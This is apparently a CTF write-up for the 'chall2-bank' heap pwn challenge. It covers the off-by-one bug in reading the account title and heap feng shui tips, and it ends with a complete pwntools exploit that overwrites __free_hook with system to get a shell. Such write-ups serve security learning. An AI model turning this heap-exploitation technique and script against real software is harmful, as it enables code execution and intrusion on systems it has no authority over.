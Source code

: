 ```yaml
---
title: chall2-bank
date: 2018-10-20 23:37:51
tags: pwn FengShui heap
layout: page
---
```

hack it ctf 2018
chall2-bank
<!--more-->
# start
前几天写的当时记得保存了....
然后今天重建博客的时候发现没了...

# Analysis
这几天看了hitcon的pwn题感觉菜单题还是挺友好的
程序主要是以下功能
```arm
Letter
1. Create an account
2. Edit the title
3. Edit your statement
4. Shut down your account
5. View your bank status
```
主要涉及到的结构体是:
```arm
00000000 act             struc ; (sizeof=0x28, mappedto_6)
00000000 check           dq ?
00000008 size            dq ?
00000010 statement       dq ?                    ; offset
00000018 title           db 16 dup(?)
00000028 act             ends
00000028
```

本题特色每次做完操作都会检查一遍malloc_hook 和 每个被记录的act的chec位
```arm
__int64 check()
{
  __int64 result; // rax
  signed int i; // [rsp+4h] [rbp-Ch]

  for ( i = 0; i <= 19; ++i )
  {
    if ( account[i] && *(_DWORD *)account[i]->check != 0x60C0C748 )
    {
      puts("LOL you are bankrupt");
      exit(0);
    }
  }
  result = *(_QWORD *)dlsym((void *)0xFFFFFFFFFFFFFFFFLL, "__malloc_hook");
  if ( result )
    exit(0);
  return result;
}
```
每次malloc的大小都是fastbin内

# 漏洞
漏洞点比较明显:
```arm
unsigned __int64 add()
{
  int size; // [rsp+0h] [rbp-20h]
  int i; // [rsp+4h] [rbp-1Ch]
  act *ptr; // [rsp+8h] [rbp-18h]
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  for ( i = 0; i <= 19 && account[i]; ++i )
    ;
  if ( i <= 19 )
  {
    ptr = (act *)malloc(0x28uLL);
    ptr->check = (__int64)&magic;
    LODWORD(ptr->size) = 16;
    printf("Enter title of bank account: ");
    read(0, ptr->title, 0x11uLL);               // offbyone
    printf("Enter size of your bank statement: ", ptr->title);
    fflush(stdout);
    scanf("%d\n", &size);
    fflush(stdout);
    if ( size + 8 > 0x70 )
    {
      puts("Only fast allowed");
      exit(0);
    }
    if ( size <= 0 )
      exit(0);
    ptr->statement = (char *)malloc(size + 8);
    fgets(ptr->statement, size, stdin);
    account[i] = ptr;
    printf("Account has been created at index %d\n", (unsigned int)i);
  }
  else
  {
    puts("No space left");
  }
  return __readfsqword(0x28u) ^ v4;
}
```
在读入title的时候offbyone

# 思路
* offbyone 盖掉size free进入unsorted bin
* malloc调整堆块leak出heap和libc（虽然heap没啥用...）
* 因为mallochoook没得用又是full relro 所以只能找其他hook
    * free_hook 首选...
    * 首先做fastbin atk 改写掉topchunk指针到freehook前
    * 但是free_hook前没啥可以作为size位的数据所以要自己构造 用unsorted bin atk
    * 然后做一个fastbinatk 之前要在fast bins 中留下size位
* 改写free hook->system free("/bin/sh")

# 风水(坑点)
* 前方留下一堆和act size一样的chunk 到后面0x30不够用了就free一些优化结构
* 做完泄露之后别急着继续，先去调整一下heap 
* 泄漏完之后不要把unsorted bin 放进 smallbin 否则你会后悔的
* 在fastbin留下做fastbinatk的size1位
* 先想好再构造否则改死你

# EXP
```python
from pwn import *
def cmd(c):
	p.sendlineafter("bank status\n",str(c))
def add(title,size,state="A"):
	cmd(1)
	p.sendafter("Enter title of bank account: ",title)
	p.sendlineafter("Enter size of your bank statement: ",str(size-8))
	p.sendline(state)
def free(idx):
	cmd(4)
	p.sendlineafter("Enter index of bank account: ",str(idx))
def show(idx):
	cmd(5)
	p.sendlineafter("Enter index of bank account: ",str(idx))#
#context.log_level='debug'
p=process("./chall2-bank")
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
add("A"*11,0x28)
free(0)
add("A"*11,0x38)#0
add("A"*0x10+'\xd1',0x28)#1
add("A",0x28)#2
add("A",0x28)#3
free(0)
add("A",0x70)#0
fake=0x00007f7a1d095000
#leak
show(2)
p.readuntil("Title: ")
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7ffff7bcdb78-fake)
p.readuntil("Statement: ")
heap=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x555555757130-0x555555757000)
log.warning(hex(base))

libc.address=base

#fix
free(3)
add("A",0x48)#3
#fixover
#leakover
add("B"*11,0x28)#4
free(4)
add("B"*11,0x38)#4


##5
cmd(1)
p.sendafter("Enter title of bank account: ","B"*0x10+'\xf1')
p.sendlineafter("Enter size of your bank statement: ",str(0x48-8))
p.send("\x00"*0x38+'\x41\x00\x00\x00\x00\x00\x00\x0a')
##5

free(1)
add("A",0x70,p64(0)*3+p64(0x21)*9)#1
add("B",0x70)#6
add("C",0x28)#7

free(5)
free(4)
free(1)
free(7)

add("A",0x58,p64(0)*7+p64(0x51)+p64(0x7ffff7bcdb50-fake+base))#1
add("A",0x58,p64(0)*3+p64(0x41)+p64(0)+p64(0x81)+p64(0x51))#4

add("A",0x70,p64(0)*3+p64(0x21)+p64(0)+p64(0x31)+p64(0)+p64(0x7ffff7bcf7a0-fake+base-0x10)+p64(0x00000000000020)+p64(0x20)*3)#5
add("A",0x48)#7

add("CCTV",0x28)#8

free(8)

add("A",0x48,p64(0)*3+p64(0x7ffff7bcf7a0-8-fake+base)+p64(0)+p64(0x7ffff7bcdb78-fake+base)+p64(0x7ffff7bcdb78-fake+base))#8

add("A",0x18,p64(0x7ffff784e390-fake+base))

add("A",0x18,"/bin/sh")#10

free(10)
p.interactive("neir>")



```
